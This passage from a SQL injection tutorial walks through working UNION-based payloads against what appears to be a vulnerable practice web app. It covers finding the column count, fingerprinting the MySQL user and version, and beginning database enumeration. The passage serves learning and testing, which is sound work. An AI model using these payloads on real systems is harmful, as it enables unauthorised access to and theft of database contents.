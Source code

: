 A union statement must meet two requirements to be successful:

- Both data sets must have the same number of columns.
- All data within a column must have a compatible data type. E.g. Strings cannot be combined with a numerical column.

The movie table has 5 columns displayed in the application, so modify the URL to union a select statement with 5 columns. If an error is returned add an additional column. Continue to add columns to the select statement until the query is successful.


URL Parameters                                  | Result
------------------------------------------------|--------------------------------------------------------------------------------------------
?title='UNION+SELECT+1,2,3,4,5+--+&action=1     | 'Error: The used SELECT statements have a different number of columns' is returned.
?title='UNION+SELECT+1,2,3,4,5,6+--+&action=1   | 'Error: The used SELECT statements have a different number of columns' is returned.
?title='UNION+SELECT+1,2,3,4,5,6,7+--+&action=1 | Presumably all movies are returned followed by a row containing the numbers 2, 3, 5, and 4.

This indicates that the table which the application is querying contains 7 columns, but is only displaying 4 of those columns. Columns 2, 5, and 4, allow text data type. Column 3 is either a number or text data type. 

#### Fingerprinting 

Now we can begin to union more useful selections in place of the displayed numbers. Submit the following GET request to determine the database user, version number, name, and schema:

{:style="overflow: auto; white-space: nowrap;"}
 `?title='UNION+SELECT+1,current_user(),@@version,database(),schema(),6,7+--+&action=1` 

The variables and functions in this query are built into MySQL. I pulled them from a generic MySQL injection cheat sheet. You can find links to SQLi payloads in the resources section below or by using any search engine, such as DuckDuckGo. 

The reason I know we are working with MySQL is because the error message that was returned from the `?title=&action=search` request included the phrase "MySQL server". If a verbose error message was not returned, you could determine the DBMS by submitting database-specific operators and identifying which ones execute successfully. 

E.g. The concatenation operator: 

DBMS       | Concatenation
-----------|------------------------------------
MS SQL     | 'a' + 'a'
MySQL      |  CONCAT('a','a')
Oracle     |  'a' \|\| 'a', <br> CONCAT('a','a')
Postgres   |  'a' \|\| 'a'

After the SQL server and version number are identified, search for known vulnerabilities in those technologies.  

#### Enumerating Databases

Information_schema is default database on MySQL servers which contains metadata about the server.
